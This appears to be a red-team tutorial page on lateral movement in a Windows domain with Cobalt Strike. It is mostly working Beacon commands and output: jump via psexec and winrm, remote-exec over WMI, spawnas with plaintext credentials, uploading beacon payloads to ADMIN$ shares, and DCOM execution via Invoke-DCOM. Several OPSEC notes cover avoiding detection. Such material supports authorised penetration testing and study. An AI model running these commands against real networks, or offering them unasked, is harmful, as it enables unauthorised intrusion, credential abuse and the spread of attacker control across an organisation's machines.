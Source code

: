 ```yaml
---
title: Lateral Movement
category: Red Team
order: 7
---
```


Moving laterally between computers in a domain is important for accessing sensitive information/materials, and obtaining new credentials. 

In this section we are goingto see how do a lateral movement with Cobalt Strike

# Execution commands

Cobalt Strike provides three strategies for executing Beacons, code or commands on remote targets.

To execute commands remotely we need admin privileges.

> **OPSEC Note**: A common way of testing local admin access on a target is to list the C$ directory.
>
>`beacon> ls \\dc01\c$`

## Jump 

`jump` command will spawn a beacon payload on the remote target, and if we use a P2P listener, will connect automatically.

Usage of `jump` command:
```
jump [method] [target] [listener]
```

We can use different methods:

```
beacon> jump

Beacon Remote Exploits
======================

    Exploit                   Arch  Description
    -------                   ----  -----------
    psexec                    x86   Use a service to run a Service EXE artifact
    psexec64                  x64   Use a service to run a Service EXE artifact
    psexec_psh                x86   Use a service to run a PowerShell one-liner
    winrm                     x86   Run a PowerShell script via WinRM
    winrm64                   x64   Run a PowerShell script via WinRM
```

## Remote-exec

`remote-exec` command will simply execute commands on a remote target.

hey require more manual work to manage the payload, but do offer a wider degree of control over what gets executed on the target. You also need to connect to P2P Beacons manually using `connect` or `link`.

```
beacon> remote-exec

Beacon Remote Execute Methods
=============================

    Methods                         Description
    -------                         -----------
    psexec                          Remote execute via Service Control Manager
    winrm                           Remote execute via WinRM (PowerShell)
    wmi                             Remote execute via WMI
```

## Powershell and execute-assembly

We can specify the target in `powershell` and `execute-assembly` commands.

```
baecon> execute-assembly /path/payload.exe -computername=dc01
```

```
baecon> powershell Get-ChildItem -computername=dc01
```

## Spawn


Notice that due to problems of **CoInitializeSecurity** COM object, a different security context for example another user can not be used in the same beacon process.

To that reason we need to spawn another beacon.

`spawn` and `spawnas` starts a new session with the provided credentials. 

```
beacon> spawn
```
The `spawnas` command will spawn a new process using plaintext credentials and will inject a beacon payload into it.

```
beacon> spawnas CORP\user Passw0rd! smb-p2p-payload
[+] established link to child beacon: 10.10.10.10
```

> **Note**: A common mistake is to attempt this from a directory where te user does not have read access. Change directory to `C:\` and try it again.

# PowerShell Remoting

The `winrm` and `winrm64` methods can be used to use powershell remoting.

WinRM will return a **high integrity beacon running as the user** with which are going to be interacted.

```
# 64-bit target
beacon> jump winrm64 dc01 [P2P-Listener]

# 32-bit target
beacon> jump winrm dc01 [P2P-Listener]
```

> **Note**: We can use `Get-WmiObject` to determine the arhitecture of the remote system.


# PsExec

The `psexec` and `psexec64` commands, first a service binary is uploaded to the target system, then a starting windows service is created to execute that binary.

`psexec_psh` doesn't copy the binary to the target, but instead executes a PowerShell one-liner (always in 32-bit).

PsExec will return a beacon running by **SYSTEM**.

```
beacon> jump psexec64 dc01 [p2p-listener]
```

# Windows Management Instrumentation (WMI)

The `wmi` `remote-exec` method uses WMI's *process call create* to execute any command we specify on the target.

The most straight forward means of using this to upload a payload to the target system and use WMI to execute it.

```
beacon> cd \\dc01\ADMIN$
beacon> upload C:\p2p-smb-beacon.exe
beacon> remote-exec wmi dc01 C:\Windows\beacon.exe
```

After executing the beacon we will neeed to connect to it.

```
beacon> link dc01 \\dc01\pipe\[namepipe]
```

## The Curious Case of CoInitializeSecurity

If our beacon called CoInitializeSecurity in the context of "UserA" then the future BOFs such as WMI may not be able to inherit a different security context "UserB".

```
beacon> make_token CORP\userb password
[+] Impersonated CORP\usera

beacon> remote-exec wmi web.corp.local C:\Windows\smb_x64.exe
CoInitializeSecurity already called. Thread token (if there is one) may not get used
[-] Could not connect to web.dev.cyberbotic.io: 5
```

Our WMI execution needs to come from a different process. This can be achieved with commands such as `spawn` and `spawnas` or even `SharpWMI`.

```
beacon> execute-assembly C:\Tools\SharpWMI.exe action=exec computername=web.corp.local command="C:\Windows\smb_x64.exe"
```

# Distributed Component Object Model (DCOM)

Beacon has no built-in capabilities to interact over DCOM, so we can use `Invoke-DCOM`.

* [https://github.com/EmpireProject/Empire/blob/master/data/module_source/lateral_movement/Invoke-DCOM.ps1](https://github.com/EmpireProject/Empire/blob/master/data/module_source/lateral_movement/Invoke-DCOM.ps1)


```
beacon> powershell-import .\Invoke-DCOM.ps1
beacon> powershell Invoke-DCOM -ComputerName dc01 -Method MMC20.Application -Command C:\Windows\beacon-smb.exe
beacon> link dc01
```

> **OPSEC Note**: `DCOM` is more complicated to detect, since each method works in a different way. If `MMC20.Application` method spawns a process, the spawned process will be a child of `mmc.exe`.
>
> `ProcessId: 952`
> `Image: C:\Windows\beacon-smb.exe`
> `ParentImage: C:\Windows\System32\mmc.exe`